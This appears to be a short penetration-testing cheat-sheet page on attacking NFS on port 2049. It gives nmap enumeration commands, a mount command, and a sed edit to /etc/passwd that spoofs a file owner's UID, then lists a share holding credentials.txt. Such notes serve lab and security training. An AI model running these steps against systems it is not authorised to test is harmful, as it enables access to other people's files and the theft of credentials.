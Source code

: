 # NFS - 2049

## NFS Information

## Mounting NFS Shares

Enumerate NFS shares with nmap:

```text
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
nmap -p 111 --script nfs* 10.11.1.72
```

Mount with **-o nolock** to disable file locking, which is often needed for older NFS servers:

```text
sudo mount -o nolock 10.11.1.72:/home ~/home/
```

Replace the UID of the user we'll use to navigate through the temporary mount of NFS:

```text
sudo sed -i -e 's/1001/1014/g' /etc/passwd
cat /etc/passwd | grep pwn
```

We'll try to find sensitvive files like SSH keys or anything related to credentials:

```text
ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09:16 .
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1014 1014
48 Jun 10 09:16 credentials.txt
```

